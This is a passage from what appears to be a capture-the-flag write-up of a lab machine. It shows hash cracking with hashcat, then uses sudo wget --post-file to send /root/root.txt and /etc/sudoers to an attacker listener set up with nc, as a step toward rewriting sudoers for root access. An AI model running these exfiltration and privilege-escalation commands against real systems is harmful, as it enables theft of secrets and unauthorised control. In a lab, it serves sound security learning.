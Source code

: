 As you can see in the above output, wget is telling us it was unable to find a URL in the file, that's fine, we could use `awk` to negate these errors but it doesn't matter, we have the root hash so let's try and crack that now!

Using the same password cracking method we did earlier, we're going to try and crack the root hash, again like before we will use hashcat for this and we'll run the following `hashcat64 -m 7400 rootsunday rockyou.txt` unfortunately I was unable to crack the root hash for this box so I had to think of another method. We know already we can use wget to get the contents of files so we can always use this to grab the root flag (which I did.) however, we still want to get a shell on the box for our learning benefit.

In order to get the root flag you can do the following `sudo wget --post-file=/root/root.txt 10.10.14.21` whilst listening to connections on port 80 using `nc -nvlp 80` on your machine.

```
nc -nvlp 80
Listening on [unknown] (family 0, port -1319828693)
Connection from 10.10.10.76 49999 received!
POST / HTTP/1.0
User-Agent: Wget/1.10.2
Accept: */*
Host: 10.10.14.21
Connection: Keep-Alive
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

[root flag]
```

When you do this, where I have put `root flag` you will get the actual root flag, so you can use this if you don't want to get a full shell but, I didn't want to stop here and I had an idea to get root - what if we could download the `sudoers` file, edit it and then upload it back to the box in order in our case making sure our user `sammy` can do anything he likes - sounds easy, right? It is!

First we need to download it, we can do this by using the same `wget` method we used above in order to get the root flag, setup a listener on port 80 on your device and then use `sudo wget --post-file=/etc/sudoers 10.10.14.21` on the victim box this will give you the contents of the sudoers file in your listener, next copy and paste all of the contents into a file on your machine, I used nano and made `nano easysuoders`.

```
sudo wget --post-file=/etc/sudoers 10.10.14.21  
--17:00:06--  http://10.10.14.21/
           => `index.html'
Connecting to 10.10.14.21:80... connected.
HTTP request sent, awaiting response... ^C
```

```
# sudoers file.
#
# This file MUST be edited with the 'visudo' command as root.
# Failure to use 'visudo' may result in syntax or file permission errors
# that prevent sudo from running.
#
# See the sudoers man page for the details on how to write a sudoers file.
#

# Host alias specification

# User alias specification

# Cmnd alias specification

# Defaults specification

# Runas alias specification

```